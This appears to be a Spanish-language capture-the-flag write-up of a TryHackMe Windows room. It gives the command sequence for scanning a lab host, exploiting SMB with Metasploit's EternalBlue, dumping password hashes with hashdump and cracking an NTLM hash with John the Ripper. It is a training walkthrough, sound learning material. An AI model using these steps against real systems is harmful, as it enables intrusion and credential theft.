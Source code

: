 Pentesting Windows - TryHackMe
Herramientas utilizadas
Nmap

Metasploit

JohnTheRipper

Reconocimiento
Comprobamos conectividad y sistema operativo
bash
Copiar
Editar
ping -c 1 10.10.203.246
Observamos que devuelve ttl=127, lo que nos indica que se trata de una máquina Windows.

Escaneo de puertos
bash
Copiar
Editar
nmap -p- -sS -sC -sV --open --min-rate=5000 -n -vvv -Pn -oN escaneo.txt 10.10.203.246
Detección de vulnerabilidades en el puerto 445
bash
Copiar
Editar
nmap --script "vuln" -p445 10.10.203.246
Gain Access
Tras identificar la vulnerabilidad, accedemos a Metasploit:

bash
Copiar
Editar
msfconsole
Cargamos el exploit de EternalBlue:

bash
Copiar
Editar
use 0
Ajustamos los parámetros necesarios:

RHOSTS: IP de la máquina víctima

LHOST: IP de nuestra máquina atacante

Ejecutamos el exploit:

bash
Copiar
Editar
run
Accedemos satisfactoriamente a la máquina.

Escalate
Listamos los procesos:

bash
Copiar
Editar
ps
TryHackMe nos pide el último proceso ejecutado como NT AUTHORITY\SYSTEM, por ejemplo con el ID 2968.

Cracking
Volcamos los hashes de los usuarios:

bash
Copiar
Editar
hashdump
Copiamos la contraseña hash de Jon y la guardamos en un archivo para crackearla con JohnTheRipper:

bash
Copiar
Editar
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash
✅ --format=NT indica explícitamente que el hash es NTLM, el formato que Windows utiliza para almacenar contraseñas.
Si no se indica, John podría confundirlo con LM, MD2, etc.

Flags
Una vez encontradas las tres flags, podemos leerlas con:

bash
Copiar
Editar
type flag1.txt